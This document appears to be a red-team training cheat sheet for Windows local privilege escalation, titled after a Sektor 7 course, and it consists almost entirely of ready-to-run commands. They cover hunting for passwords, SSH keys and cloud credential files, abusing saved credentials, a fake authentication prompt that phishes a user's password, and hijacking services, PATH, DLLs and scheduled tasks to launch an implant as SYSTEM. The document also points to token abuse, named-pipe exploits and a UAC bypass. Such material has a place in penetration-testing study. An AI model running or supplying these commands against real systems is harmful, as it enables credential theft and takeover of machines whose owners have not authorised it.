 # RTO Sektor 7 Cheat Sheet

### Credentials

- Search for passwords

```
C:\> dir /b /a /s c:\ > c:\rto\c-dirs.txt
C:\> type c:\rto\c-dirs.txt | findstr /i passw
```

- Search for interesting files

```
C:\> type c:\rto\c-dirs.txt | findstr /i ssh
C:\> type c:\rto\c-dirs.txt | findstr /i kdbx
C:\> type c:\rto\c-dirs.txt | findstr /i vnc
```

- Good targets:

  - install, backup, .bak, .log, .bat, .cmd, .vbs, .cnf, .conf, .config, .ini, .xml, .txt, .gpg, .pgp, .p12, .der, .csr, .cer, id_rsa, id_dsa, .ovpn, .rdp, vnc, ftp, ssh, vpn, git, .kdbx, .db
  - unattend.xml
  - Unattended.xml
  - sysprep.inf
  - sysprep.xml
  - VARIABLES.DAT
  - setupinfo
  - setupinfo.bak
  - web.config
  - SiteList.xml
  - .aws\credentials
  - .azure\accessTokens.json
  - .azure\azureProfile.json
  - gcloud\credentials.db
  - gcloud\legacy_credentials
  - gcloud\access_tokens.db
 
- Search for passwords in the Registry

```
C:\> reg query "HKCU\Software\ORL\WinVNC3\Password"
C:\> reg query "HKCU\Software\TightVNC\Server"
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
C:\> reg query "HKCU\Software\OpenSSH\Agent\Keys"
C:\> reg query HKLM /f password /t REG_SZ /s
C:\> reg query HKCU /f password /t REG_SZ /s
```

- Abuse Credential Manager to run a application as another user using saved credentials

```
C:\> cmdkey /list
C:\> runas /savecred /user:admin cmd.exe
C:\> runas /savecred /user:admin c:\rto\lpe\implant\implant.exe
C:\> runas /savecred /user:admin "c:\windows\system32\cmd /c dir /b /a /s c:\users\admin > c:\rto\admin.txt"
```

- Rob Credential Manager using a custom script based on https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1

```
C:\> powershell Import-Module c:\rto\lpe\cms.ps1 ; Enum-Creds
```

- Ask user for credentials using a trick prompt

```
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName); $cred.getnetworkcredential().password"
C:\> powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### Unsecured Objects

- Search for unquoted service paths

```
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """"
```

- Search for services with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Everyone" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Users" *
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wuvc "Authenticated Users" *

C:\> sc query sshd
C:\> sc qc sshd
C:\> sc config sshd binPath= "c:\rto\lpe\implant\implant.exe"
C:\> sc start sshd

C:\> sc stop sshd
C:\> sc config sshd binPath= "c:\Program Files\OpenSSH\sshd.exe"
```

- Search for service Registry keys with weak permissions

```
C:\> c:\RTO\Tools\SI\accesschk.exe -accepteula -kvuqsw hklm\System\CurrentControlSet\services > c:\rto\regs.txt

C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d C:\rto\lpe\implant\implantsrv.exe /f
C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

### Execution Flow Hijacking

- Search for files with weak permissions

```
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Users" c:\*.* > c:\rto\fld-usr.txt
C:\> c:\rto\tools\si\accesschk.exe -accepteula -wus "Authenticated Users" c:\*.* > c:\rto\fld-authusr.txt
```

- Exploit the PATH variable

```
C:\> reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"
C:\> icacls c:\rto\bin
C:\> copy c:\windows\system32\cmd.exe c:\rto\bin\notepad.exe

C:\> del c:\rto\bin\notepad.exe
```

- Exploit a missing service

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a s | more
C:\> sc query AdobeUpdate
C:\> sc qc AdobeUpdate
C:\> copy c:\RTO\LPE\implant\implantsrv.exe c:\rto\bin\AdobeUpdate.exe

C:\> sc stop AdobeUpdate
C:\> sc start AdobeUpdate

C:\> del c:\rto\bin\AdobeUpdate.exe
```

- Exploit a missing scheduled task

```
C:\> c:\RTO\Tools\si\autorunsc64.exe -a t | more
C:\> schtasks /query /tn OneDriveChk /xml

C:\> wmic useraccount where sid='S-1-5-21-3461203602-4096304019-2269080069-1003' get name

C:\> copy c:\RTO\LPE\implant\implant.exe C:\RTO\bin\OneDriveChk.exe

C:\> del C:\RTO\bin\OneDriveChk.exe
```

- Hijack a DLL

```
C:\> cd c:\RTO\LPE\DLL-hijack
C:\> compile.bat
C:\> copy c:\RTO\LPE\DLL-hijack\winmm.dll c:\RTO\Tools\putty\

C:\> del c:\RTO\Tools\putty\winmm.dll
```

- Bypass UAC

```
Repo with up-to-date UAC bypass exploits:
https://github.com/hfiref0x/UACME
```

### Getting SYSTEM

- Search for AlwaysInstallElevated MSI setting

```
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Create a new service for SYSTEM

```
run from elevated admin cmd/console:
C:\> sc create lol binPath= "c:\RTO\LPE\implant\implant.exe"
C:\> sc start lol
C:\> sc stop lol
C:\> sc delete lol
```

- Abuse tokens

```
C:\> reg query HKLM\SYSTEM\CurrentControlSet\services\IKEEXT
C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d c:\RTO\LPE\2SYSTEM\TokenDance\tokendance.exe /f

C:\> sc stop ikeext
C:\> sc start ikeext

C:\> reg add HKLM\SYSTEM\CurrentControlSet\services\IKEEXT /v ImagePath /t REG_EXPAND_SZ /d "%systemroot%\system32\svchost.exe -k netsvcs -p" /f
```

- Exploit named pipes

```
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> compile.bat

run from elevated admin cmd/console:
C:\> cd \RTO\LPE\2SYSTEM\Piper
C:\> piper.exe
```
